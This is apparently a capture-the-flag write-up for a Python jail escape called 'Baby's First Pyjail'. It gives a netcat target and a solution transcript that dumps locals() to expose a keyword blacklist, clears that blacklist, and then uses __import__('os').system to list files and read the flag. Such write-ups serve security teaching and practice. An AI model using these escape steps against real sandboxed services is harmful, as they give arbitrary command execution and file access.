 # Jail / Sandbox Escape

## Baby's First Pyjail

@windex told me that jails should be sourceless. So no source for you.

nc 35.226.249.45 5000

---

### Solution

<!-- print(globals()) -->

```bash
$ nc 35.226.249.45 5000
>>> print(locals())
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f70fac6bc10>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/home/ctfuser/app/chal.py', '__cached__': None, 'blacklist': ['import', 'exec', 'eval', 'os', 'open', 'read', 'system', 'module', 'write', '.'], 'cmd': 'print(locals())', 'i': '.'}
>>> print(blacklist)
['import', 'exec', 'eval', 'os', 'open', 'read', 'system', 'module', 'write', '.']
>>> blacklist = []
>>> print(blacklist)
[]
>>> __import__("os").system("ls")
chal.py
flag
>>> __import__("os").system('cat flag')
uoftctf{you_got_out_of_jail_free}
```

### uoftctf{you_got_out_of_jail_free}